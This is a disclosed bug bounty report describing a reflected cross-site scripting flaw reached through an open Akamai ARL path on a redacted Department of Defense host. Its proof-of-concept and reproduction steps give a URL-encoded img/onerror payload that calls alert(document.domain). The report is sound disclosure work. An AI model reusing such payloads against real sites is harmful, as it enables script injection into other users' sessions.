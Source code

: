 # Open Akamai ARL XSS at ████████

## Report Details
- **Report ID**: 1317024
- **URL**: https://hackerone.com/reports/1317024
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-23T23:42:02.795Z
- **Disclosed**: 2022-04-20T20:18:30.639Z

## Reporter
- **Username**: whoisbinit
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary
There is Open Akamai ARL XSS at ████████

## Proof-of-Concept
http://████/7/0/33/1d/www.citysearch.com/search?what=Binit&where=Binit%22%3E%3Cimg%20src%3Dbinit%20onerror%3Dalert%28document.domain%29%3E

## References:
- https://github.com/war-and-code/akamai-arl-hack
- https://twitter.com/SpiderSec/status/1421176297548435459
- https://warandcode.com/post/akamai-arl-hack/
- https://github.com/cybercdh/goarl
- https://community.akamai.com/customers/s/article/WebPerformanceV1V2ARLChangeStartingFebruary282021?language=en_US

## Impact

Attackers can execute malicious JavaScript code in the target webpage.

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
http://████/7/0/33/1d/www.citysearch.com/search?what=Binit&where=Binit%22%3E%3Cimg%20src%3Dbinit%20onerror%3Dalert%28document.domain%29%3E

## Suggested Mitigation/Remediation Actions
Visit
- https://community.akamai.com/customers/s/article/WebPerformanceV1V2ARLChangeStartingFebruary282021?language=en_US



## Attachments
No attachments
